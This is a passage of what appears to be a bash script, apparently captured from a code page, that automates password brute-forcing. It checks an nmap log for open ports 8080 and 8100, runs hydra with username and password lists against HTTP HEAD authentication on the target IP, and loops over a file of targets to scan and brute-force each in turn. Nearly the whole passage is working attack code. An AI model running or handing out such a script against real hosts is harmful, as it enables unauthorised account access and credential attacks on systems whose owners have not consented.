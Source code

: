   #  Port 8080 (HTTP HEAD)
  BruteHTTP8080(){
    if grep -q 8080/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 8080(HTTP HEAD) is open. Starting bruteforce...\n"
      sleep 1
      hydra -L $user -P $pass ${targetIP} http-head -S 8080 -f -q -e ns -o Output/${targetIP}/http-head_8080_${targetIP}.txt -I -V -m / -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 8080(HTTP HEAD) is not open. Skipping to next port..."
    fi
  }
  BruteHTTP8080

  #  Port 8100 (HTTP HEAD)
  BruteHTTP8100(){
    if grep -q 8100/tcp nmap.log; then
      echo "        ${BBlue}└──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 8100(HTTP HEAD) is open. Starting bruteforce...\n"
      sleep 1
      hydra -L $user -P $pass ${targetIP} http-head -S 8100 -f -q -e ns -o Output/${targetIP}/http-head_8100_${targetIP}.txt -I -V -m / -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}└──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 8100(HTTP HEAD) is not open. Quitting..."
    fi
  }
  BruteHTTP8100

  read -p "$Press_ENTER"

  if [ "$1" = "--help" ] || [ "$1" = "-h" ]; then
  	help
  	exit
  fi

  if [ ! -z "$2" ]; then
  	if [ "$2" -gt "64" ] || [ "$2" -lt "1" ]; then
  		echo -e "[${red}!${default}] Maximum number of threads is 64!"
  		exit
  	else
  		thread=$2
  	fi
  fi

  if [[ -f $1 ]]; then
  	while IFS= read -r line; do
  		sleep 1
  		report $line
  		port_scan $line
  		bruteforce $line $2
  	done < "$1"
  	exit
  fi
